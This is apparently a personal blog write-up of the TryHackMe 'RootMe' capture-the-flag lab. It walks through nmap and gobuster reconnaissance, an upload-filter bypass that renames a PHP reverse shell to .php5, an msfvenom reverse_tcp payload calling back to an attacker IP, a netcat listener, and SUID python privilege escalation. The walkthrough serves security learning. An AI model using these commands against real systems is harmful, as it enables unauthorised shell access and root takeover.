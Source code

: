 ```yaml
---
layout: post
title: "RootMe"
date: 2023-11-19
categories: ["Hands-on", "TryHackMe"]
tags: ""
---
```


# Root Me
> A ctf for beginners, can you root me? 

Used: **nmap**, **gobuster**

## Task 2: Reconnaissance

### Nmap
Scanning for services on the target machine for open ports, and service version

```bash
nmap -sV -Pn ip
```

![nmap](/images/rootme/nmap_scan.png)

### GoBuster
Scanning for directories on the web server with gobuster

```bash
gobuster dir -u url -w /usr/share/wordlists/dirb/common.txt
```

After scanning, we found out two interesting directories the panel that allows uploading and the uploads that i believe is the directory where the files uploaded end up in. 

![gobuster](/images/rootme/gobuster.png)


## Task 3: Getting a shell
We can get the shell by using the reverse shell from [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) and modifying the Ip address and the port. 

After uploading, the system does not allow the upload of PHP file so as a next step we can try different format.

![panel](/images/rootme/panel_upload_php_failed.png)

```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.9.14.150 LPORT=6666 -f elf > shell-x64.elf
```
![msfvenom](/images/rootme/elf_file_upload_works.png)

While the system allowed the upload of the file, it did not run it. We could change the format of PHP to be PH5 by copying the file from pentest reverse shell and change the format by renaming it. We were able to upload it and the next step would be to setup the listening then pressing on the file in the /uploads directory. 

```bash
nc -nvlp 6666
```
Once the listener is setup, we can press on the file and find the flag. I manually attempted to locate the file to get an idea on what is there but you can use the below commant to find it easily. We were able to find the cat.txt in the www directory 

![nc](/images/rootme/nc.png)

```bash
find / -type f -name user.txt 
```

Find arguments explained:
- type f to look for file
- name is user.txt

find a file with the name user.txt

## Task 4: Privillege escalation 
Now that we have the user, we need to escalate our privilege to the root. The task requests us to search for files with SUID permission and check if there is a weird file.

I used the below command to search for all the files with SUID permission that can be run as root. We can find that we can run python as root which means we can escalate our privilege by telling python to run bash as sudo 

```bash
find / -user root -perm /4000
```
![python](/images/rootme/python.png)


```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![python](/images/rootme/root.png)


